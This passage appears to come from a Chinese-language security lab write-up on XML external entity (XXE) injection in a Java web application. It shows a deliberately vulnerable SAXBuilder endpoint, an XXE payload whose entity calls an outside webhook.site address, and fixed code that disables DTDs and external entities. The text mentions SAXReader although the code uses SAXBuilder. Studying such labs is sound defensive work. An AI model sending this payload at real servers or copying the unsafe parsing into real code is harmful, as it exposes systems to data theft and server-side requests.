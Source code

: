 #### 2./xxe/SAXBuilder/vuln

```
@RequestMapping(value = "/SAXBuilder/vuln", method = RequestMethod.POST)
    public String SAXBuilderVuln(HttpServletRequest request) {
        try {
            String body = WebUtils.getRequestBody(request);
            logger.info(body);

            SAXBuilder builder = new SAXBuilder();
            // org.jdom2.Document document
            builder.build(new InputSource(new StringReader(body)));  // cause xxe
            return "SAXBuilder xxe vuln code";
        } catch (Exception e) {
            logger.error(e.toString());
            return EXCEPT;
        }
    }
```

换用SAXReader第三方库，攻击手法同上（注意请求要以http格式进行解析）：

```
<?xml version="1.0" encoding="utf-8"?><!DOCTYPE test [<!ENTITY xxe SYSTEM "http://webhook.site/186f2ce9-cf0c-4eda-ad3f-49c3873814a7">]><root>&xxe;</root>

```

![image-20250725171230237](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202507251712331.png)

#### 修复代码

通过`setFeature`关闭DTD和外部实体解析从而防止了xxe

```
    @RequestMapping(value = "/xmlReader/sec", method = RequestMethod.POST)
    public String xmlReaderSec(HttpServletRequest request) {
        try {
            String body = WebUtils.getRequestBody(request);
            logger.info(body);

            XMLReader xmlReader = XMLReaderFactory.createXMLReader();
            // fix code start
            xmlReader.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
            xmlReader.setFeature("http://xml.org/sax/features/external-general-entities", false);
            xmlReader.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
            //fix code end
            xmlReader.parse(new InputSource(new StringReader(body)));  // parse xml

        } catch (Exception e) {
            logger.error(e.toString());
            return EXCEPT;
        }

        return "xmlReader xxe security code";
    }
```

